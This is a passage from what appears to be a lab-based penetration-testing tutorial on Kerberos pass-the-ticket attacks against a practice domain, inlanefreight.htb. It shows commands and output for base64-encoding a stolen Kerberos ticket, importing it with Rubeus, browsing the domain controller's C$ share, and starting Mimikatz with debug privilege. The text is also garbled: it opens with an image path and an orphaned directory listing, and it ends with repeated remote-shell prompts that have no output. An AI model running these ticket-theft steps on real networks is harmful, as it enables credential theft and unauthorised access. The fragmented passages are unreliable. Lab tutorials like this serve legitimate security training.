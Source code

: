 ```batch

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

<SNIP>
```

### Method 3: Rubeus + base64-encoded Ticket

We can also use the base64-encoded ticket obtained from Rubeus or base664 encode the Mimikatz tickets using :

```powershell
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

And then use Rubeus:

```batch
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKg...<SNIP>...
 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.5.0


[*] Action: Import Ticket
[+] ticket successfully imported!
```

Which grants us access as the target user:

```batch
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

<SNIP>
```

### Method 4: Mimikatz

```batch
C:\tools> mimikatz.exe 

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

```

[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname